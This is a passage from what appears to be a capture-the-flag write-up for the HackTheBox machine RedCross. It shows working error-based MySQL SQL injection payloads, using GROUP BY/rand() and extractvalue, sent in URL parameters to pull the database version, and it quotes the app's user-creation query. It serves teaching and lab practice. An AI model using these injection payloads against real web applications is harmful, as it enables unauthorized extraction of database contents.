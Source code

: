 This statement is going to create an error condition because of how `GROUP BY` requires unique values. [This video](https://www.youtube.com/watch?v=2UUWowboSfA) walks through that in more detail, and here’s [another post describing this kind of error](https://hydrasky.com/network-security/error-based-sql-injection-attack/).

NETSPI has a [list of error based injections](https://sqlwiki.netspi.com/injectionTypes/errorBased/#mysql) that gives a simplified version of that query:

```

SELECT 1 AND(SELECT 1 FROM(SELECT COUNT(*),concat(0x3a,(SELECT username FROM USERS LIMIT 0,1),FLOOR(rand(0)*2))x FROM information_schema.TABLES GROUP BY x)a)

```

If I visit `https://intra.redcross.htb/?o=1') and (select 1 from (Select count(*),Concat((version()),0x3a,floor(rand (0) *2))y from information_schema.tables group by y) x)-- -&page=app`, I get the db version back:

![1555090092657](https://0xdfimages.gitlab.io/img/1555090092657.png)

Note, the “:1” at the end is not part of the version, but rather the result of the `concat` in the injection and the rand that causes the error.

The NETSPI list has a simpler version that uses XML Parse Errors. Their example is:

```

SELECT extractvalue(rand(),concat(0x3a,(select version())))

```

Playing around with that a bit to get it to work, I can get a version out of the page by going to:

`https://intra.redcross.htb/?page=app&o=1' and extractvalue(0x0a,concat(0x0a,(version()))) and 1)'`:

![1555090646456](https://0xdfimages.gitlab.io/img/1555090646456.png)

### Jail Config

I’ll notice that the php code uses the following query to the database to create a user:

```

"insert into passwd_table (username, passwd, gid, homedir) values ($1, $2, 1001, '/var/jail/home')"

```

The group is set to 1001, and the homedir is set to `/var/jail/home`.

When I ssh in as one of these users, I can see group 1001 is associates:

```

$ id
uid=2025 gid=1001(associates) groups=1001(associates)

```
